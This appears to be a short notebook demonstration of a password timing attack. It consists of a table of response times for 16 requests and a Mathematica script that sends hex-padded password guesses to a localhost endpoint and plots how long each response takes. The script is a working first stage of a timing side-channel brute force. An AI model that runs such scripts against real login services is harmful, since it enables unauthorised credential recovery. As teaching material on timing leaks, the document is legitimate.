Time started | Done | Difference | Payload | Request no.
3.659626985776746×10^9 | 3.659626985784732×10^9 | 0.008016 | 0000000000000000000000000000000000000000 | 1
3.659626985784851×10^9 | 3.65962698579334×10^9 | 0.008507 | 1000000000000000000000000000000000000000 | 2
3.659626985793418×10^9 | 3.659626985799396×10^9 | 0.006003 | 2000000000000000000000000000000000000000 | 3
3.659626985799484×10^9 | 3.659626985806445×10^9 | 0.006978 | 3000000000000000000000000000000000000000 | 4
3.659626985806524×10^9 | 3.659626985817747×10^9 | 0.01124 | 4000000000000000000000000000000000000000 | 5
3.659626985817828×10^9 | 3.659626985824822×10^9 | 0.007011 | 5000000000000000000000000000000000000000 | 6
3.659626985824898×10^9 | 3.659626985832728×10^9 | 0.00785 | 6000000000000000000000000000000000000000 | 7
3.659626985832806×10^9 | 3.659626985839248×10^9 | 0.006459 | 7000000000000000000000000000000000000000 | 8
3.659626985839325×10^9 | 3.659626985845514×10^9 | 0.006208 | 8000000000000000000000000000000000000000 | 9
3.659626985845594×10^9 | 3.65962698585234×10^9 | 0.00677 | 9000000000000000000000000000000000000000 | 10
3.659626985852443×10^9 | 3.659626985859264×10^9 | 0.006848 | a000000000000000000000000000000000000000 | 11
3.659626985859384×10^9 | 3.659626985865788×10^9 | 0.006427 | b000000000000000000000000000000000000000 | 12
3.659626985865877×10^9 | 3.659626985872331×10^9 | 0.006479 | c000000000000000000000000000000000000000 | 13
3.659626985872453×10^9 | 3.659626985878778×10^9 | 0.006343 | d000000000000000000000000000000000000000 | 14
3.659626985878858×10^9 | 3.659626985885582×10^9 | 0.006749 | e000000000000000000000000000000000000000 | 15
3.659626985885696×10^9 | 3.659626985892382×10^9 | 0.006704 | f000000000000000000000000000000000000000 | 16



```mathematica
(** Synchronous version of the bruteforce timing attack script **)
timingsList = {};
alphabet = {"0","1","2","3","4","5","6","7","8","9","a","b","c","d","e","f"};
uri="http://localhost:8080/?password=";

(*Iterator function*)
enumFunc[payload_, iterator_] :=
(
endpoint = uri <> ToString[payload];
timeStarted = AbsoluteTime[];

(* Dispatch a request *)
statusCode = URLFetch[endpoint, {"StatusCode"}];
timeDone = AbsoluteTime[];

AppendTo[timingsList, {timeStarted,timeDone,AbsoluteTime[]- timeStarted, payload, iterator}];
)

(*Payload generator*)
For [j=1,j ≤ Length[alphabet],j++, (
candidate= "" <>PadRight[{alphabet[[j]]}, 40, "0"];

(*Feed into iterator/request dispatcher*)
enumFunc[candidate, j]
)
]

(* Print a table with the response timings *)
TableForm[timingsList,TableHeadings->{None, {"Time started", "Done","Difference", "Payload", "Request no."}}]

Show[ListPlot[timingsList⟦All,3⟧,PlotTheme->"Business",AxesLabel->{"request no.","time"},Filling->Axis],ImageSize->Medium, PlotRange->All]
```